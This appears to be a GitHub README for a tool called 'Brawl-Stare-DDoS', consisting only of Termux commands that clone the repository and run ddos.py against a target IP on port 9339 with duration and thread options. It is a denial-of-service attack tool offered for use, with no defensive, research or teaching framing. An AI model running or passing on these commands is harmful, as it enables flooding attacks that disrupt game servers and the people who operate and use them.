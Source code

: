 # Brawl-Stare-DDoS
#Run this command in Termux
git clone https://github.com/turkhack3131/Brawl-Stare-DDoS.git
cd Brawl-Stare-DDoS
ls
python ddos.py --ip <target_ip> --port 9339 --duration 30 --threads 5
